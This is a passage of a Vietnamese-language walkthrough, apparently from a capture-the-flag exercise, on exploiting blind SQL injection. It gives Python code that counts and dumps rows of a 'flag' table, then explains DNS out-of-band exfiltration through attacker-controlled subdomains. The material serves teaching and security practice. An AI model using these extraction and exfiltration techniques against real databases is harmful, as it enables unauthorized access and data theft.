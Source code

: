 #### **Kết quả:**
```plaintext
Số cột trong bảng 'flag': 1
Tên cột 1: flag
```

---

### **4. Trích xuất giá trị từ bảng (Dumping Data)**

#### **Ý tưởng:**
1. Dùng **`COUNT(*)`** để xác định số dòng trong bảng.
2. Trích xuất từng giá trị từ bảng **`flag`** sử dụng truy vấn **`SELECT`**.

#### **Triển khai:**

**Xác định số lượng dòng trong bảng:**
```python
num_rows = dumpNumber("SELECT COUNT(*) FROM flag")
print(f"Số dòng trong bảng 'flag': {num_rows}")
```

**Trích xuất giá trị từng dòng:**
```python
for i in range(num_rows):
    flag_value_length = dumpNumber(f"SELECT LEN(flag) FROM flag ORDER BY flag OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY")
    flag_value = dumpString(f"SELECT flag FROM flag ORDER BY flag OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY", flag_value_length)
    print(f"Dòng {i+1} trong bảng 'flag': {flag_value}")
```

#### **Kết quả:**
```plaintext
Số dòng trong bảng 'flag': 1
Dòng 1 trong bảng 'flag': FLAG_VALUE
```

---
10
### **Khai thác dữ liệu qua DNS Out-of-Band (OOB) Injection**

---

### **Lý thuyết**

- **DNS Exfiltration:** Cho phép trích xuất dữ liệu bằng cách làm máy chủ mục tiêu gửi yêu cầu DNS tới máy chủ DNS mà bạn kiểm soát. Dữ liệu được mã hóa và gắn vào tên miền phụ (subdomain).
- **Ứng dụng:** Hữu ích trong các tấn công **Blind SQL Injection** khi không có phản hồi trực tiếp hoặc thời gian chờ không đáng tin cậy.

#### **Quy trình chung:**
1. Dùng payload SQL để mã hóa dữ liệu thành dạng tuân thủ DNS (ví dụ: hex hoặc base64).
2. Tách dữ liệu thành các phần nhỏ hơn (<63 ký tự) để phù hợp với giới hạn của DNS.
3. Gửi các phần dữ liệu qua subdomain tới máy chủ DNS bạn kiểm soát.
4. Thu thập dữ liệu từ log của máy chủ DNS và giải mã.

---